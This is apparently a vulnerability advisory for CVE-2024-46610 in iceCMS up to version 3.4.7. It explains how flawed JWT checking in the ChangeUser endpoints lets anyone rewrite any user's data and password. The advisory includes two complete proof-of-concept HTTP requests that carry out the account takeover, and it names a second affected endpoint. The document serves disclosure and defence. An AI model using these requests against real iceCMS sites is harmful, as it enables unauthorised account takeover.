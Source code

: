 
**[CVE-ID]**

CVE-2024-46610

**[PRODUCT]**

icecms

**[Vendor of Product]**

https://github.com/Thecosy/iceCMS?tab=readme-ov-file

**[VERSION]**

icecms <=3.4.7

**[Vulnerability Type]**

Incorrect Access Control

**[Description]**

Unauthorized modification of any user information, including passwords.

The vulnerability is in the ChangeUser function in UserController.java. The route of the function is @PostMapping("/ChangeUser/{jwt}"). This interface does not perform authentication processing. It only detects the jwt, and its jwt detection logic is problematic. As a result, attackers can directly request this interface to modify the information of any user, including passwords.

![pic1](/icecms/PIC/CVE-2024-46610-1.png)

The code logic is as follows:
There is a problem with the jwt detection logic in the code. If the jwt is invalid or illegal, an error should be reported directly or a return should be made directly instead of just setting a message.

![pic2](/icecms/PIC/CVE-2024-46610-2.png)


## POC：

Use Burpsuite to send the login data packet as follows. 
Through this interface, the information of any user can be directly modified.

The "userId" is used to distinguish which user's information is to be modified.

```
POST /User/ChangeUser/s HTTP/1.1
Host: localhost:8181
sec-ch-ua: " Not A;Brand";v="99", "Chromium";v="96"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost:9528
Sec-Fetch-Site: same-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Content-Type:application/json
Referer: http://localhost:9528/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 621

{"userId":65,"openid":null,"userage":null,"intro":"这个人很懒，什么都没有留下！","gender":"","name":"alan",
"role":"会员",
"username":"test","password":"$argon2i$v=19$m=65536,t=3,p=1$Bd4DS8mtP2ZM3DInyCT/sg$pQixU/obFvmj9wZXu658pZ4G5epINkfdET17xx8X3R8","email":"1231","role":"testa","profile":"https://img2.woyaogexing.com/2022/07/17/5bbaa5352282a8f7!400x400.jpg","status":null,"createTime":"2024-09-05 17:15:08","lastLogin":"2024-09-05T09:15:37.000+00:00","vipValidDate":null,"vipExpireDate":null,"integral":null,"vipDisableTip":true,"height":"","birthday":"","academic":"","monthly":"","permanent":""}

```
![pic3](/icecms/PIC/CVE-2024-46610-3.png)



 Directly modify users. And the password can be directly set as plaintext, and the plaintext will be stored in the database.
For example, sending a packet:
```
POST /User/ChangeUser/a HTTP/1.1
Host: localhost:8181
sec-ch-ua: " Not A;Brand";v="99", "Chromium";v="96"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost:9528
Sec-Fetch-Site: same-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Content-Type:application/json
Referer: http://localhost:9528/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 533

{"userId":67,"openid":null,"userage":null,"intro":"这个人很懒，什么都没有留下！","gender":"","name":"test2",
"role":"会员",
"username":"test2","password":"123456","email":"1231","role":"testa","profile":"https://img2.woyaogexing.com/2022/07/17/5bbaa5352282a8f7!400x400.jpg","status":null,"createTime":"2024-09-05 17:15:08","lastLogin":"2024-09-05T09:15:37.000+00:00","vipValidDate":null,"vipExpireDate":null,"integral":null,"vipDisableTip":true,"height":"","birthday":"","academic":"","monthly":"","permanent":""}

```

![pic4](/icecms/PIC/CVE-2024-46610-4.png)

in the Database：

![pic5](/icecms/PIC/CVE-2024-46610-5.png)

There is also an interface with the same problem. The interface is as follows: /Websuser/ChangeUser/s.
**in WebUserController.java,ChangeUser Function.**
